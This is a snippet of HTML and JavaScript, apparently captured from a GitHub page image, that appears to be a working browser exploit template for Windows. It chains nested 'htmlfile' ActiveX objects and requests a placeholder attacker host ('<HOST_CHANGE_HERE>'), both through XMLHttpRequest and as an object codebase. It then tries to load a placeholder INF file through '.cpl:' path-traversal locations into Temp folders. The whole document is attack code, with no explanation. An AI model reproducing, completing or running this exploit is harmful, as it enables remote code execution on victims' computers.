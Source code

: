 ```
                }
                htmlfile2['open']()['close']();
                var htmlfile3 = new htmlfile2[('Script')]['ActiveXObject']('htmlfile');
                htmlfile3['open']()['close']();
                var htmlfile4 = new htmlfile3[('Script')]['ActiveXObject']('htmlfile');
                htmlfile4['open']()['close']();
                var htmlfile5 = new htmlfile4[('Script')]['ActiveXObject']('htmlfile');
                htmlfile5['open']()['close']();
                var ActiveXObjectVAR = new ActiveXObject('htmlfile')
                  , ActiveXObjectVAR2 = new ActiveXObject('htmlfile')
                  , ActiveXObjectVAR3 = new ActiveXObject('htmlfile')
                  , ActiveXObjectVAR4 = new ActiveXObject('htmlfile')
                  , ActiveXObjectVAR5 = new ActiveXObject('htmlfile')
                  , ActiveXObjectVAR6 = new ActiveXObject('htmlfile')
                  , XMLHttpR = new window['XMLHttpRequest']()
                  , XMLHttpRopen = window['XMLHttpRequest']['prototype']['open']
                  , XMLHttpRsend = window['XMLHttpRequest']['prototype']['send'];
                XMLHttpRopen['call'](XMLHttpR, 'GET', '<HOST_CHANGE_HERE>', ![]),
                XMLHttpRsend['call'](XMLHttpR),
                htmlfile5['Script']['document']['write']('body>');
                var htmlScript = window["Document"]['prototype']['createElement']['call'](htmlfile5['Script']['document'], 'object');
                htmlScript['setAttribute']('codebase', '<HOST_CHANGE_HERE>#version=5,0,0,0');
                htmlScript['setAttribute']('CLSID:edbc374c-5730-432a-b5b8-de94f0b57217'),
                window["HTMLElement"]["prototype"]["appendChild"]['call'](htmlfile5['Script']['document']['body'], htmlScript),
                ActiveXObjectVAR['Script']['location'] = '.cpl:123',
                ActiveXObjectVAR['Script']['location'] = '.cpl:123',
                ActiveXObjectVAR['Script']['location'] = '.cpl:123',
                ActiveXObjectVAR['Script']['location'] = '.cpl:123',
                ActiveXObjectVAR['Script']['location'] = '.cpl:123',
                ActiveXObjectVAR['Script']['location'] = '.cpl:123',
                ActiveXObjectVAR['Script']['location'] = '.cpl:123',
                ActiveXObjectVAR['Script']['location'] = '.cpl:123',
                ActiveXObjectVAR['Script']['location'] = '.cpl:123',
                ActiveXObjectVAR['Script']['location'] = '.cpl:../../../AppData/Local/Temp/Low/<INF_CHANGE_HERE>',
                ActiveXObjectVAR2['Script']['location'] = '.cpl:../../../AppData/Local/Temp/<INF_CHANGE_HERE>',
                ActiveXObjectVAR3['Script']['location'] = '.cpl:../../../../AppData/Local/Temp/Low/<INF_CHANGE_HERE>',
                ActiveXObjectVAR4['Script']['location'] = '.cpl:../../../../AppData/Local/Temp/<INF_CHANGE_HERE>',
                ActiveXObjectVAR5['Script']['location'] = '.cpl:../../../../../Temp/Low/<INF_CHANGE_HERE>',
                ActiveXObjectVAR4['Script']['location'] = '.cpl:../../../../../Temp/<INF_CHANGE_HERE>',
                ActiveXObjectVAR4['Script']['location'] = '.cpl:../../Low/<INF_CHANGE_HERE>',
                ActiveXObjectVAR4['Script']['location'] = '.cpl:../../<INF_CHANGE_HERE>';
            }());
        </script>
    </body>
</html>
```
